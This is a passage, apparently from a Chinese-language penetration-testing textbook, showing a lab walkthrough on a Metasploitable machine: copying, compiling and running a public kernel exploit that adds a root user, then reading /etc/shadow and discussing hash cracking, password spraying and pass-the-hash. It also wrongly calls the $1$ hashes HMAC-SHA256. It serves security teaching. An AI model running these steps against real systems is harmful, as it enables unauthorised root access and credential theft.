 接下来，将代码复制到 Metasploitable 机器上：

```
kali@kali:~/$ scp /usr/share/exploitdb/exploits/linux/local/40839.c msfadmin@192.168.1.101:~/
```

编译并执行漏洞利用代码：

```
msfadmin@metasploitable:~$ gcc -pthread 40839.c -o kernelexploit -lcrypt
```

现在运行漏洞利用代码（`kernelexploit`）。系统会提示你创建一个新的 root 用户（`firefart`），并为其设置密码。我在这里选择了`147`：

```
msfadmin@metasploitable:~$ ./kernelexploit

/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 147
Complete line:
firefart:fibyOYsv7UnQ6:0:0:pwned:/root:/bin/bash

mmap: b7fa7000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '147'.
```

切换到新创建的具有 root 权限的用户：

```
msfadmin@metasploitable:~$ su firefart
Password:
```

现在，你应该能够读取包含密码哈希的*/etc/shadow*文件：

```
firefart@metasploitable:/home/msfadmin# cat /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::

...
```

该条目应包含用户密码的 HMAC-SHA256 哈希值。你可以使用第十二章中介绍的工具来破解这些哈希。如果成功，你将提升权限并提取系统用户的明文密码。

现在，你可以使用这些凭据登录到其他机器。最好的凭据是管理员凭据，因为管理员负责维护网络，并通常可以访问所有机器。然而，普通用户的凭据也很有用，因为他们可能能够访问网络上的其他机器，比如桌面或打印机。像`spray`这样的工具可以让你同时测试多个密码和连接。然而，这些工具会做一些不寻常的事情，可能会生成安全警报，所以你在使用时要小心。

那些你无法破解的哈希值怎么办？你仍然可以利用它们执行其他攻击，例如我们将在第十五章中讨论的*传递哈希攻击*。

### 练习

这些练习旨在增强你对权限提升和跳板攻击的理解。在第一个练习中，你将扩展你的 Metasploitable 机器，使其能够将流量从私有网络路由出去，将其转变为一个完全功能的路由器。第二个练习提供了一些关于 Windows 设备权限提升的推荐阅读材料。

